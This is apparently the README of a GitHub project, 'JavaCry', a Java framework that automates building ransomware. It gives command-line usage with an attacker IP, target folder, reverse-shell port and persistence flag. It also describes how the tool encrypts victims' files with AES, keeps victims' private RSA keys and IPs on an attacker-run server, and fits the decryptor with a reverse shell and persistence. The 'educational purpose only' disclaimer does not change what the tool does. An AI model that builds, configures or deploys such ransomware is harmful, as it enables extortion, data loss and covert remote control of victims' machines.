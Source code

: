# JavaCry Java Ransomware Framework
**Warning: this project is for educational purpose only. Please make sure that the program encrypts the right directory. I do not take any responsibility of any damage.**

![image](https://github.com/acezxn/JavaCry/blob/main/images/YourFilesHaveBeenEncrypted.png)

### the project is still in development

It is a project to build a ransomware made with java. With the framwork, ransomware generation is automated.


## User guideline
* To run the JRF framework, move to JRF/Classes directory and run `java JRF` in terminal
* To run MainServer, which handles keys and decryption requests, move to JRF/Classes directory and run `java MainServer` in terminal

### Parameters:
* Target path: the path which the ransomware encrypts the files. Make sure it is **set to the right folder**. Leaving blank would mean that the ransomware would encrypt its local directory.
* Local IP: the attackers IP address
* Reverse shell: 
    * port: any port except 5555 and 6666, since these are the ports used by KeyServer and DecryptRequestHandler
    * persistence: Decryptor tries to configure the victim system so that the attacker's access would be persistent. This may be detected as some system has permission setting blocking this utility.

### One liner:
* `java JRF <IP> <TargetPath> <revPort> <persistence> <exportPath>`
#### Examples:
* `java JRF 192.168.68.21 /home /home/user/Desktop`
* `java JRF 192.168.68.21 /home 5678 /home/user/Desktop`
* `java JRF 192.168.68.21 /home 5678 persistence /home/user/Desktop`
#### Note: reverse shell and persistence are optional


## Features:

### JavaCry Functionality:
* It is the ransomware delivered to the victim.
* Creates a random number, as the victim’s identity.
* Hashes the number and sends it to the server.
* Receives its public key from the server for decryption.
* Creates 256 bit AES key, use the key to encrypt recursively in the target folder.
* Save key: encrypt the AES key with the public key, and save as Key_protected.key.
* Creates, compiles, and executes decryption.java.
* decryptor.java:
    * Opens a UI for decryption guideline
    * Shows a a button for sending decryption requests
    * Wait for the acceptance of DecryptRequestHandler
    * Decrypt files:
	    * Receives the private key
	    * Read Key_protected.key
	    * Decrypt Key_protected.key with the private key, get the AES key
	    * Use the AES key to recursively decrypt the target folder
    * Delete itself, Key_protected.key
 
### MainServer Functionality:
* It is the server that manages the victim's private keys and decryption requests.
* Commands:
    * clear: clear the screen
    * help: show help page
    * KS header: run KeyServer commands
    * DR header: run DecryptRequestHandler commands
    * KeyServer:
        * The server creates RSA key pairs for every victim, sending the public keys to the victim to encrypt the AES key used for file encryption.
        * For every client instance:
            * Creates a key pair, keep the private key
            * Receives the client’s id hash
            * Send public key to the client
            * Store the client’s IP, private key, and id hash in keys.csv
        * Commands:
            * help: show help page
            * off: turn of server, rejecting all requests
            * on: turn on server
            * reset: reset keys.csv
    * DecryptRequestHandler
		* Commands:
			* help: show help page
			* show: show authenticated clients
			* reject <idx>: reject a specific request
			* accept <idx> accept a specific request
			* off: turn of server, rejecting all requests
			* on: turn on server

### Extra spice:
* integrated reverse shell in Decryptor, and run it everytime the victim runs Decryptor
* persistence trials can be enabled, protecting the attacker's access (Note: it may be detected due to some security policy of computers)

## How it works
### Encryption
![image](https://github.com/acezxn/JavaCry/blob/main/images/JavaCry_Encryption.jpg)
### Decryption
![image](https://github.com/acezxn/JavaCry/blob/main/images/JavaCry_Decryption.jpg)